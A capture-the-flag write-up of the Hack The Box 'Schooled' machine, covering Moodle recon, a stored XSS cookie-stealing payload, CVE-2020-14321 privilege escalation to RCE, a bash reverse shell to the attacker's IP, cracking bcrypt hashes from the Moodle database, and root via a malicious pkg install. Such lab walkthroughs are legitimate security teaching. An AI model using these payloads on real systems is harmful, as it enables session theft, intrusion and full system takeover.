


# Schooled: 10.10.10.234

## Hints

- Start by finding another web app to poke at
- Stealing cookies is the way to auth as a more privileged user
- You will need more privilege to get remote code execution
- For the previous two steps, there is one GitHub user who has all the exploits
- Moving to a user to get the flag is all about cracking hashed passwords from a well known well-structured service
- Privesc to root can be found with the go-to tools and then you can GTFO

## nmap

Starting with the usual `nmap` scan. Interesting ports:

```none
22/tcp open  ssh     OpenSSH 7.9 (FreeBSD 20200214; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.46 ((FreeBSD) PHP/7.4.15)
```

Looks like a usual web-centric box with SSH and HTTP the only ports open. As a fun change, it is running FreeBSD.

## 80: Recon

Started by having a look at the website on port 80.



Looking through the page there is some info about this being an educational institute. The website footer has the `schooled.htb` hostname, so I added this to my `/etc/hosts` file. Browsing to this hostname shows the same website. The source code is pretty plain, so got the idea that we should be looking for something else.

Started a `gobuster` looking for hidden directories.

```none
gobuster dir -t 20 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u 10.10.10.234 -o gobuster_80_root_medium.log -x php
```

I added in the `php` extension as `nmap` reported the Apache website was running PHP version 7.4.15. The results displayed were the usual static website directories such as `js` and `css`. The next logical step is to look for other ports or hostnames for something that would be run using the PHP install. A full `nmap` scan didn't reveal anything. So, used `gobuster`, this time in `vhost` mode.


```none
gobuster vhost -u schooled.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt
```

This quickly returned the `moodule.schooled.htb` hostname. Browsing to the site shows a Moodle instance.


I have used Moodle in a previous job but tried to avoid it where possible - using GitHub as an alternative to share course resources. So trying to exploit it will be a fun experience for me!

I tried to log in using a couple of default and well-known password combinations but had no luck. So went ahead and created a new account. When creating a new account, I got an error message that I should use `student.schooled.htb` domain as in the email.


After modifying that, the account was created without issue and could log into the platform.

## Vulnerability Scanning Moodle

At this point, I realized I was doing lots of manual enumeration without anything running in the background! So I looked for a Moodle vulnerability scanning tool to gather some information. I found the [`moodlescan` project](https://github.com/inc0d3/moodlescan), and installed it using the following steps:

```none
git clone https://github.com/inc0d3/moodlescan.git
cd moodlescan
pip3 install -r requirements.txt
python3 moodlescan.py -h
python3 moodlescan.py -u http://moodle.schooled.htb/moodle
```

The idea didn't go to plan, as the tool finished executing in about 5 seconds! Anyway, got some useful information, mainly the Moodle version which was reported as 3.9.0-beta.

```none
Getting server information http://moodle.schooled.htb/moodle ...

server          : Apache/2.4.46 (FreeBSD) PHP/7.4.15
x-powered-by    : PHP/7.4.15
x-frame-options : sameorigin
last-modified   : Fri, 10 Sep 2021 21:58:20 GMT

Getting moodle version...

Version found via /admin/tool/lp/tests/behat/course_competencies.feature : Moodle v3.9.0-beta

Searching vulnerabilities...

Vulnerabilities found: 0
```

During my research getting `moodlescan` up and running, I got a little sidetracked, and found the [HackTricks page on Moodle](https://book.hacktricks.xyz/pentesting/pentesting-web/moodle) article. Decided to also run `droopescan` on the target which was listed in the HackTricks article.

```none
pip install droopescan
droopescan scan moodle -u http://moodle.schooled.htb/moodle/
```

The results were a little contradictory, as each tool reported different Moodle versions, but there was only a slight variation. The `droopescan` results reported 3.10.0-beta.

```none
[+] Plugins found:                                                              
    forum http://moodle.schooled.htb/moodle/mod/forum/
        http://moodle.schooled.htb/moodle/mod/forum/upgrade.txt
        http://moodle.schooled.htb/moodle/mod/forum/version.php

[+] No themes found.

[+] Possible version(s):
    3.10.0-beta

[+] Possible interesting urls found:
    Static readme file. - http://moodle.schooled.htb/moodle/README.txt
    Admin panel - http://moodle.schooled.htb/moodle/login/
```

Using `searchsploit` didn't help. Most of the exploits listed targeted Moodle versions below 3.9.0 or 3.10.0. Moving on!

## XSS to Teacher Role

Instead of targeting the Moodle version with a remote exploit, started having a look around the Moodle instance for some more information, and looking at user inputs. I noticed there were a few courses available, but only the Mathematics course could be enrolled in. I enrolled in the course and discovered that there were a couple of announcements for the course. There is one post from Manuel Phillips (the course lead) who mentioned that the `MoodleNet` profile needed to be set.


I had a look in my account profile, and this property was empty. I set it to a random string and saved it. Didn't know what I should have put, so I Googled "moodlenet exploit" - hoping there might be a known exploit for it... and there was.

I found the CVE-2020-25627 vulnerability, which was the second Google result. The [CVE-2020-25627 GitHub repo](https://github.com/HoangKien1020/CVE-2020-25627) outlined a stored XSS attack. I haven't used XSS in Hack The Box before - but I guess there must be some automated process on the machine that executes something to mimic a user visiting this page, or something similar. I followed the steps outlined in the GitHub repo and put a simple XSS PoC into the MoodleNet box.

```none
<script>alert("MoodleNet")</script>
```

Then refreshed my profile page.



Success! The JavaScript executes and we get an alert box. The next step is to put in a well-known JavaScript XSS payload that will steal the cookie of the user who visits the site and send it to our machine. I modified the code from the GitHub repo to use my IP and port.

```none
<script>var i=new Image;i.src="http://10.10.14.15:9001/xss.php?"+document.cookie;</script>
```

Before submitting the change in my profile, I made sure to have a netcat listener configured on my machine.

```none
└─$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.10.234] 38176
GET /xss.php?MoodleSession=u7dloqdkkihkqccs75i11un6gf HTTP/1.1
Host: 10.10.14.15:9001
User-Agent: Mozilla/5.0 (X11; FreeBSD amd64; rv:86.0) Gecko/20100101 Firefox/86.0
Accept: image/webp,*/*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://moodle.schooled.htb/moodle/user/profile.php?id=28
```

Success! We managed to capture the request from another user and get their cookie. I could tell this worked because the cookie for my user was different from the cookie we captured. I opened the dev tools in Firefox and changed my cookie to the value we just captured. Then refresh the browser tab, and we are logged in as Manuel Phillips.


## Privesc: Teacher to Manager

At this point, I thought I could simply upload a plugin or theme to get remote code execution - similar to WordPress. I guess the correct term is "addon" in the Moodle world?! Anyway, the [Moodle RCE addon](https://github.com/HoangKien1020/Moodle_RCE) I found needed manager access - but I didn't seem to have those rights, and got an "Access denied" error when browsing to upload an addon. The URL I used was:

```none
http://moodle.schooled.htb/moodle/admin/tool/installaddon/index.php
```

I did some more research and discovered that Moodle has a variety of [Standard roles](https://docs.moodle.org/311/en/Standard_roles). Based on the list, I initially created a "Student" account, then escalated to Manuel using the XSS attack. Manuel has a "Teacher" account. Looks like I need to elevate again to the "Manager" or "Site administrator" to upload an addon to get RCE and a shell.

While doing more research, I noticed that the exploits I had used so far were from the [GitHub user HoangKien1020](https://github.com/HoangKien1020?tab=repositories). I looked at their other repos and found [CVE-2020-14321](https://github.com/HoangKien1020/CVE-2020-14321) to elevate from Teacher to Manager and also to RCE. Perfect!

Started by downloading the exploit.

```none
wget https://github.com/HoangKien1020/CVE-2020-14321/raw/master/cve202014321.py
```

Looking at the exploit code, we can supply a username/password or a cookie. Since we only had the cookie, that seems like the option! So I constructed a command based on the examples provided.

```
python3 cve202014321.py -url http://moodle.schooled.htb/moodle/ -cookie=u7dloqdkkihkqccs75i11un6gf -cmd=id
```

However, after running the script, I got an error.

```none
Traceback (most recent call last):
  File "/media/share/schooled/exploits/cve202014321.py", line 233, in <module>
    sys.exit(main())
  File "/media/share/schooled/exploits/cve202014321.py", line 230, in main
    RCE(url,sess,command)
  File "/media/share/schooled/exploits/cve202014321.py", line 127, in RCE
    itemid =re.findall(r'itemid=(\d*)', r.text)[0]
IndexError: list index out of range
```

I started digging into the code to see what the problem was. After adding a bunch of print statements, it looks like the exploit is failing as it can't find a specific value in the response using a regular expression. I looked at the course overview in Moodle after running the script one and noticed some changes to the enrolled users.

```none
http://moodle.schooled.htb/moodle/user/index.php?id=5
```

The exploit changed Manuel to also be a "Student" user. An additional "Switch role to" option under my profile was added (in the top right corner menu). So Manuel can switch from Teacher to Student roles. It also changed the "Jamie Borham" user who has a user ID of 2 to be "No roles" in the class but to be a "Manager" when you looked at their profile. Thought this was kind of strange! I then watched the video that is linked in the repo and got a good idea of what the script was trying to automate. I did the steps manually, as shown in the video, and it worked. But I wanted to get the script running. The general flow of the exploit is:

- We have a cookie for Manuel who has the Teacher role in a specific course
- Log in as Manuel to the application using provided cookie
- Perform a request to the profile page to get Manuels user ID, course ID, and session key
- Perform a request against the course to get the enrol ID
- Enroll Manuel in the course in a Manager role (probably shouldn't be able to do this!)
- Add the **website** manager to the same course (this script adds everyone on the Moodle site to the course, so it is a little messy)
- Find the user from the course who has a site Manager role and request the ability to "log in as them" (also probably shouldn't be able to do this!)
- Attempt to upload an addon as a ZIP file, which contains a PHP file that takes an HTTP request parameter

I know that is a lot of bullet points, but it helped me understand the script by writing it all out. However... as I mentioned before, the script did not work. From tracing the error, it seemed like there was an issue with parsing the responses from Moodle and extracting important properties; such as user ID, session key, and course ID. The problem was that the regular expressions were not robust enough for all scenarios. In the demo from the author, no users had an ID with double digits. Our Moodle instance did. The original code was:

```python
user_id = re.findall(r'id=(\d)', r.text)[0]
```

Which I changed to:

```python
user_id = re.findall(r'id=(\d+)', r.text)[0]
```

The `+` in the regex will search for more than one digit in a row. Eventually, I got sick of trying to read and modify the code as it was... and decided to refactor it to bring it up to PEP8 code formatting standards. I am probably a little OCD about this, but it made it a lot easier to edit and made it easier to understand what was happening.

My refined version of the script is available with this repository at [exploits/cve202014321.py](exploits/cve202014321.py). It attempts to be a little more flexible with the searching, but will not auto-run any commands. You can just navigate to the URL it prints at the bottom to run any commands.

After getting the script to work, visited the URL of the uploaded addon.

```none
http://moodle.schooled.htb/moodle/blocks/rce/lang/en/block_rce.php?cmd=id
```

And we have code execution!!!


From here, I intercepted the request to this page in Burp, sent it to Repeater, and added the commonly seen Bash reverse shell payload.

```none
bash -c 'bash -i >& /dev/tcp/10.10.14.15/9001 0>&1'
```

I have a feeling that something on the target removes add-ons periodically, as my addon disappeared a couple of times before I could intercept it with Burp. After making sure to URL encode the payload, configured a netcat listener, and send the request.

```none
└─$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.10.234] 15527
bash: cannot set terminal process group (2067): Can't assign requested address
bash: no job control in this shell
[www@Schooled /usr/local/www/apache24/data/moodle/blocks/rce/lang/en]$ id
uid=80(www) gid=80(www) groups=80(www)
```

Success! Logged in as the `www-data` user!

## Privesc: `www-data` to `jamie`

The shell that was gained was pretty terrible to work with. I tried to deal with it for a while, but it was not easy! I didn't initially upgrade the shell with Python because `which python` and `which python3` didn't return anything. Turns out the PATH was not well configured on this system. Python was there, it just needed the full path to call it.

```none
$ find / -name python3 2> /dev/null
/usr/local/bin/python3
/usr/local/share/bash-completion/completions/python3
```

Did the usual shell upgrade with:

```none
/usr/local/bin/python3 -c 'import pty;pty.spawn("/bin/bash");'
Ctrl Z
stty raw -echo; fg
Enter Enter
```

I started running linpeas and went to get a cup of tea. When I got back linpeas had finished and had some useful output. Three users had a console, so probably want to move laterally one of them to get the user flag.

```none
╔══════════╣ Users with console
jamie:*:1001:1001:Jamie:/home/jamie:/bin/sh
root:*:0:0:Charlie &:/root:/bin/csh
steve:*:1002:1002:User &:/home/steve:/bin/csh
```

Linpeas also found the Moodle conf file that had some MySQL database credentials, which sounded like a good place to start.

```none
╔══════════╣ Analyzing Moodle Files (limit 70)
-rwxr-xr-x  1 www  www  758 Dec 19  2020 /usr/local/www/apache24/data/moodle/config.php
$CFG->dbtype    = 'mysqli';
$CFG->dbhost    = 'localhost';
$CFG->dbuser    = 'moodle';
$CFG->dbpass    = 'PlaybookMaster2020';
  'dbport' => 3306,
```

Again, the `mysql` command (similar to `python3`) was not available, as it was not in the PATH. Had to do another search to find it.

```none
$ find / -name mysql 2> /dev/null
/usr/local/bin/mysql
/usr/local/share/bash-completion/completions/mysql
/usr/local/share/mysql
/usr/local/include/mysql
/usr/local/include/mysql/mysql
/usr/local/etc/mysql
/usr/local/lib/mysql
/var/mail/mysql
/var/db/mysql
/var/db/mysql/mysql
```

With the `mysql` binary location known, could log in with the discovered credentials.

```none
/usr/local/bin/mysql -u moodle -p
```

With access, we can have a look at the databases, select the `moodle` database, and have a look at the tables available

```none
moodle@localhost [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| moodle             |
+--------------------+
2 rows in set (0.01 sec)

moodle@localhost [(none)]> use moodle;
Database changed
moodle@localhost [moodle]> show tables;
+----------------------------------+
| Tables_in_moodle                 |
+----------------------------------+
| mdl_analytics_indicator_calc     |
| mdl_analytics_models             |
...snip...
| mdl_upgrade_log                  |
| mdl_url                          |
| mdl_user                         |
| mdl_user_devices                 |
| mdl_user_enrolments              |
...snip...
| mdl_workshopform_rubric_levels   |
+----------------------------------+
428 rows in set (0.01 sec)
```

The `mdl_user` tables seemed like the most logical place to have user data. On foreign databases, I always use `DESCRIBE table_name` to see the contents. I didn't do this in the past, and always had so much trouble reading the output. Anyway, the columns of interest were `email` and `password`.

```none
moodle@localhost [moodle]> select email,password from mdl_user;
+----------------------------------------+--------------------------------------------------------------+
| email                                  | password                                                     |
+----------------------------------------+--------------------------------------------------------------+
| root@localhost                         | $2y$10$u8DkSWjhZnQhBk1a0g1ug.x79uhkx/sa7euU8TI4FX4TCaXK6uQk2 |
| jamie@staff.schooled.htb               | $2y$10$3D/gznFHdpV6PXt1cLPhX.ViTgs87DCE5KqphQhGYR5GFbcl4qTiW |
| bell_oliver89@student.schooled.htb     | $2y$10$N0feGGafBvl.g6LNBKXPVOpkvs8y/axSPyXb46HiFP3C9c42dhvgK |
| orchid_sheila89@student.schooled.htb   | $2y$10$YMsy0e4x4vKq7HxMsDk.OehnmAcc8tFa0lzj5b1Zc8IhqZx03aryC |
| chard_elizabeth89@student.schooled.htb | $2y$10$D0Hu9XehYbTxNsf/uZrxXeRp/6pmT1/6A.Q2CZhbR26lCPtf68wUC |
| morris_jake89@student.schooled.htb     | $2y$10$UieCKjut2IMiglWqRCkSzerF.8AnR8NtOLFmDUcQa90lair7LndRy |
| heel_james89@student.schooled.htb      | $2y$10$sjk.jJKsfnLG4r5rYytMge4sJWj4ZY8xeWRIrepPJ8oWlynRc9Eim |
| nash_michael89@student.schooled.htb    | $2y$10$yShrS/zCD1Uoy0JMZPCDB.saWGsPUrPyQZ4eAS50jGZUp8zsqF8tu |
| singh_rakesh89@student.schooled.htb    | $2y$10$Yd52KrjMGJwPUeDQRU7wNu6xjTMobTWq3eEzMWeA2KsfAPAcHSUPu |
| taint_marcus89@student.schooled.htb    | $2y$10$kFO4L15Elng2Z2R4cCkbdOHyh5rKwnG4csQ0gWUeu2bJGt4Mxswoa |
| walls_shaun89@student.schooled.htb     | $2y$10$EDXwQZ9Dp6UNHjAF.ZXY2uKV5NBjNBiLx/WnwHiQ87Dk90yZHf3ga |
| smith_john89@student.schooled.htb      | $2y$10$YRdwHxfstP0on0Yzd2jkNe/YE/9PDv/YC2aVtC97mz5RZnqsZ/5Em |
| white_jack89@student.schooled.htb      | $2y$10$PRy8LErZpSKT7YuSxlWntOWK/5LmSEPYLafDd13Nv36MxlT5yOZqK |
| travis_carl89@student.schooled.htb     | $2y$10$VO/MiMUhZGoZmWiY7jQxz.Gu8xeThHXCczYB0nYsZr7J5PZ95gj9S |
| mac_amy89@student.schooled.htb         | $2y$10$PgOU/KKquLGxowyzPCUsi.QRTUIrPETU7q1DEDv2Dt.xAjPlTGK3i |
| james_boris89@student.schooled.htb     | $2y$10$N4hGccQNNM9oWJOm2uy1LuN50EtVcba/1MgsQ9P/hcwErzAYUtzWq |
| pierce_allan89@student.schooled.htb    | $2y$10$ia9fKz9.arKUUBbaGo2FM.b7n/QU1WDAFRafgD6j7uXtzQxLyR3Zy |
| henry_william89@student.schooled.htb   | $2y$10$qj67d57dL/XzjCgE0qD1i.ION66fK0TgwCFou9yT6jbR7pFRXHmIu |
| harper_zoe89@student.schooled.htb      | $2y$10$mnYTPvYjDwQtQuZ9etlFmeiuIqTiYxVYkmruFIh4rWFkC3V1Y0zPy |
| wright_travis89@student.schooled.htb   | $2y$10$XFE/IKSMPg21lenhEfUoVemf4OrtLEL6w2kLIJdYceOOivRB7wnpm |
| allen_matthew89@student.schooled.htb   | $2y$10$kFYnbkwG.vqrorLlAz6hT.p0RqvBwZK2kiHT9v3SHGa8XTCKbwTZq |
| sanders_wallis89@student.schooled.htb  | $2y$10$br9VzK6V17zJttyB8jK9Tub/1l2h7mgX1E3qcUbLL.GY.JtIBDG5u |
| higgins_jane@staff.schooled.htb        | $2y$10$n9SrsMwmiU.egHN60RleAOauTK2XShvjsCS0tAR6m54hR1Bba6ni2 |
| phillips_manuel@staff.schooled.htb     | $2y$10$ZwxEs65Q0gO8rN8zpVGU2eYDvAoVmWYYEhHBPovIHr8HZGBvEYEYG |
| carter_lianne@staff.schooled.htb       | $2y$10$jw.KgN/SIpG2MAKvW8qdiub67JD7STqIER1VeRvAH4fs/DPF57JZe |
| parker_dan89@student.schooled.htb      | $2y$10$MYvrCS5ykPXX0pjVuCGZOOPxgj.fiQAZXyufW5itreQEc2IB2.OSi |
| parker_tim89@student.schooled.htb      | $2y$10$YCYp8F91YdvY2QCg3Cl5r.jzYxMwkwEm/QBGYIs.apyeCeRD7OD6S |
| test@student.schooled.htb              | $2y$10$OPJv2lwsMhvBOD0sH7jOg.kfKW8V.czjIXo7Sk.m7Mq3xKMJ6ZvB. |
+----------------------------------------+--------------------------------------------------------------+
```

Most of the users looked like students or staff in the Moodle platform. However, the `jamie` user matches one of the system users. Decided to target them and try to crack the hashed password.

This is the first Hack The Box machine I have tried since turning my gaming PC into a gaming PC with CUDA password cracking capabilities. So I SSHed into my flash new Windows machine and started setting up `hashcat`.

```
echo $2y$10$3D/gznFHdpV6PXt1cLPhX.ViTgs87DCE5KqphQhGYR5GFbcl4qTiW > hashed/schooled_jamie
```

Then fired up `hashcat` with the following argument.

```none
hashcat.exe -a 0 -m 3200 hashes/schooled_jamie ..\SecLists-2021.3.1\Passw
ords\Leaked-Databases\rockyou.txt
```

And the results on my wish-I-had-a-better-GPU hash cracking rig.

```none
$2y$10$3D/gznFHdpV6PXt1cLPhX.ViTgs87DCE5KqphQhGYR5GFbcl4qTiW:!QAZ2wsx

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 3200 (bcrypt $2*$, Blowfish (Unix))
Hash.Target......: $2y$10$3D/gznFHdpV6PXt1cLPhX.ViTgs87DCE5KqphQhGYR5G...l4qTiW
Time.Started.....: Sat Sep 11 18:30:05 2021 (1 min, 7 secs)
Time.Estimated...: Sat Sep 11 18:31:12 2021 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (..\SecLists-2021.3.1\Passwords\Leaked-Databases\rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:      209 H/s (9.24ms) @ Accel:16 Loops:8 Thr:16 Vec:1
Recovered........: 1/1 (100.00%) Digests
Progress.........: 14080/14344384 (0.10%)
Rejected.........: 0/14080 (0.00%)
Restore.Point....: 13824/14344384 (0.10%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:1016-1024
Candidate.Engine.: Device Generator
Candidates.#1....: gerber -> dillion
Hardware.Mon.#1..: Temp: 38c Fan: 27% Util: 96% Core:1934MHz Mem:3992MHz Bus:16

Started: Sat Sep 11 18:29:55 2021
Stopped: Sat Sep 11 18:31:13 2021
```

Success! The password `!QAZ2wsx` was discovered for the user `jamie`. Now we should be able to SSH in and get the user flag!

```none
└─$ ssh jamie@10.10.10.234        
The authenticity of host '10.10.10.234 (10.10.10.234)' can't be established.
ECDSA key fingerprint is SHA256:BiWc+ARPWyYTueBR7SHXcDYRuGsJ60y1fPuKakCZYDc.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.234' (ECDSA) to the list of known hosts.
Password for jamie@Schooled:
Last login: Tue Mar 16 14:44:53 2021 from 10.10.14.5
FreeBSD 13.0-BETA3 (GENERIC) #0 releng/13.0-n244525-150b4388d3b: Fri Feb 19 04:04:34 UTC 2021

Welcome to FreeBSD!

Release Notes, Errata: https://www.FreeBSD.org/releases/
Security Advisories:   https://www.FreeBSD.org/security/
FreeBSD Handbook:      https://www.FreeBSD.org/handbook/
FreeBSD FAQ:           https://www.FreeBSD.org/faq/
Questions List: https://lists.FreeBSD.org/mailman/listinfo/freebsd-questions/
FreeBSD Forums:        https://forums.FreeBSD.org/

Documents installed with the system are in the /usr/local/share/doc/freebsd/
directory, or can be installed later with:  pkg install en-freebsd-doc
For other languages, replace "en" with a language code like de or fr.

Show the version of FreeBSD installed:  freebsd-version ; uname -a
Please include that output and any error messages when posting questions.
Introduction to manual pages:  man man
FreeBSD directory layout:      man hier

To change this login announcement, see motd(5).
If you need to ask a question on the FreeBSD-questions mailing list then

        https://www.FreeBSD.org/doc/en_US.ISO8859-1/articles/\
                freebsd-questions/index.html

contains lots of useful advice to help you get the best results.
jamie@Schooled:~ $ id
uid=1001(jamie) gid=1001(jamie) groups=1001(jamie),0(wheel)
jamie@Schooled:~ $ wc -c user.txt 
      33 user.txt
```

## Privesc: `jamie` to `root`

I had a feeling this final privesc would be something related to `sudo` - not sure why, just a gut feeling. Anyway, I started linpeas on the target as the `jamie` user. To no surprise, there was an interesting `sudo` entry to allow running as `root` without a password for the `pkg` command.

```none
╔══════════╣ Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid
User jamie may run the following commands on Schooled:                                                              
    (ALL) NOPASSWD: /usr/sbin/pkg update
    (ALL) NOPASSWD: /usr/sbin/pkg install *
```

I had a look at the [GTFOBins page for `pkg`](https://gtfobins.github.io/gtfobins/pkg/#sudo). This seemed pretty straightforward given the amazing help GTFOBins provides. Started by cloneing the `fpm` software which will help build a package for us.

```none
git clone https://github.com/jordansissel/fpm.git
cd fpm
sudo gem install fpm
```

From my very brief read, the [`fpm` docs](https://github.com/jordansissel/fpm) state that this software can help build packages for a variety of systems. Sounds very cool, and should probably investigate it deeper at a later date. Anyway, we can use `fpm` to build a FreeBSD package, then upload it to the target and execute it using `sudo`. For the first iteration, I kept the same options as detailed on HackTricks, which simply ran the `id` command.

```none
TF=$(mktemp -d)
echo 'id' > $TF/x.sh
fpm -n x -s dir -t freebsd -a all --before-install $TF/x.sh $TF
```

I then uploaded it to the target system and installed it using `pkg`.

```none
jamie@Schooled:~ $ sudo pkg install -y --no-repo-update ./x-1.0.txz
pkg: Repository FreeBSD has a wrong packagesite, need to re-create database
pkg: Repository FreeBSD cannot be opened. 'pkg update' required
Checking integrity... done (0 conflicting)
The following 1 package(s) will be affected (of 0 checked):

New packages to be INSTALLED:
        x: 1.0

Number of packages to be installed: 1
[1/1] Installing x-1.0...
uid=0(root) gid=0(wheel) groups=0(wheel),5(operator)
Extracting x-1.0:   0%
pkg: File //tmp/tmp.sBFhtBz48X/x.sh not specified in the manifest
Extracting x-1.0: 100%
```

There is a line where `id` command is run and we can see we are `root`. From here we can execute a reverse shell, or maybe add an SSH key for the `root` user. However, at this point, I was tired and went with the no-frills option of `cat`ting the `root.txt` flag.

```none
TF=$(mktemp -d)
echo 'cat /root/root.txt' > $TF/x.sh
fpm -n x -s dir -t freebsd -a all --before-install $TF/x.sh $TF
sudo pkg install -y --no-repo-update ./x-1.0.txz
```

Done!

## Lessons Learned

- Refactoring exploits takes forever, but it teaches me so much. Where is the line to draw in the sand?
- Hashcat on a dedicated machine with CUDA is so much faster and hashcat seems to be much more flexible with more functionality.

## Useful Resources

- [HackTheBox - Schooled by ippsec](https://www.youtube.com/watch?v=bUfZlBMFJ2I)
- [HTB: Schooled by 0xdf](https://0xdf.gitlab.io/2021/09/11/htb-schooled.html)
- [Exploiting Moodle vulnerabilities and FreeBSD custom pkg](https://fmash16.github.io/content/writeups/hackthebox/htb-Schooled.html)
